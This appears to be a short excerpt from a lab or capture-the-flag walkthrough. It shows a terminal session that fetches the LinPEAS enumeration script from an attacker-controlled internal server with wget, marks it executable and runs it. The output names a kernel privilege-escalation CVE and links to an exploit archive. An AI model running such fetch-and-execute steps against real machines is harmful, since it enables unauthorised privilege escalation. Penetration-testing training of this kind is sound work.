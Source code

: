 ```bash
beth@london:~$ wget http://10.2.37.37:8000/linpeas_linux_amd64 -O linpeas64
--2024-10-01 23:57:18--  http://10.2.37.37:8000/linpeas_linux_amd64
Connecting to 10.2.37.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3256264 (3.1M) [application/octet-stream]
Saving to: ‘linpeas64’

linpeas64                            100%[====================================================================>]   3.10M   854KB/s    in 5.8s    

2024-10-01 23:57:25 (544 KB/s) - ‘linpeas64’ saved [3256264/3256264]

beth@london:~$ chmod +x linpeas64
beth@london:~$ ./linpeas64

[REDACTED] - MORE

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                           
    |---------------------------------------------------------------------------------|                                                           
    |         Follow on Twitter         :     @hacktricks_live                        |                                                           
    |         Respect on HTB            :     SirBroccoli                             |                                                           
    |---------------------------------------------------------------------------------|                                                           
    |                                 Thank you!                                      |                                                           
    \---------------------------------------------------------------------------------/                                                           
          linpeas-ng by github.com/PEASS-ng 
          
[+] [CVE-2018-18955] subuid_shell

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1712
   Exposure: probable
   Tags: [ ubuntu=18.04 ]{kernel:4.15.0-20-generic},fedora=28{kernel:4.16.3-301.fc28}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/45886.zip
   Comments: CONFIG_USER_NS needs to be enabled
   
[REDACTED] - MORE

beth@london:~$
```

**For LinPEAS source:**

[https://github.com/peass-ng/PEASS-ng/releases/download/20240818-ea81ae32/linpeas_linux_amd64](https://github.com/peass-ng/PEASS-ng/releases/download/20240818-ea81ae32/linpeas_linux_amd64)
